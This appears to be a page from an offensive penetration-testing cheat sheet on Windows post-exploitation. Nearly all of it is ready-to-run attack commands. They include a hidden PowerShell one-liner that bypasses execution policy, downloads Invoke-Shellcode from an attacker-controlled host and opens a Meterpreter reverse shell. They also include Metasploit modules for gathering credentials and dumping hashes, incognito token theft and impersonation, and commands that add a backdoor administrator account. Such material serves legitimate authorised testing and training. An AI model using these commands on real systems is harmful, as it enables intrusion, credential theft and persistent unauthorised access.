 ### **Reverse Shell from Windows**

If there’s a way, we can execute code from windows, we may try

* Uploading ncat and executing it
* Powershell Empire/ Metasploit Web-Delivery Method
* Invoke-Shellcode (from powersploit) see below

```
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://YourIPAddress:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"
```

### Metasploit

```
post/windows/gather/credentials/gpp
post/windows/gather/enum_unattend
```

```
getsystem
getprivs
use priv
hashdump
```

### Metasploit incognito

[https://www.offensive-security.com/metasploit-unleashed/fun-incognito/](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)

```
use incognito
list_tokens -u
list_tokens -g
impersonate_token DOMAIN_NAME\\USERNAME
steal_token PID
drop_token
rev2self
```

### Useful commands

#### Add a new user

```
net user test 1234 /add
net localgroup administrators test /add
```

#### Print files contents:

```
type file
```
